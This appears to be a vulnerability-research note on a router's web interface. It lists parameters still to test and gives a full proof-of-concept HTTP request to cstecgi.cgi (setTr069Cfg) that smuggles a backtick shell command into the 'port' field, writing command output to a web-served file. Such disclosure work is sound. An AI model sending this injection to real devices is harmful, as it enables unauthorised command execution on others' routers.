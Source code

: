 统计下剩下的：

- [ ] port
- [ ] stunPort
- [ ] stunMaxAlive
- [ ] stunMinAlive



# 3. `sub_4119A0` ✔️

## `port`

```
POST /cgi-bin/cstecgi.cgi?token=FE46010A2414AC06 HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 318
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/tr069_cfg.html?token=FE46010A2414AC06
Priority: u=1

{"addEffect":"0","enable":"1","url":"www.awa.com","user":"1","pass":"1","informEnable":"0","interval":"","requestUser":"","requestPass":"",
"port":"`ls >/web/poc_port.txt`",
"stun_user":"","stun_pass":"","stunEnable":"0","stunServerAddr":"","stunPort":"","stunMaxAlive":"","stunMinAlive":"","topicurl":"setTr069Cfg"}
```


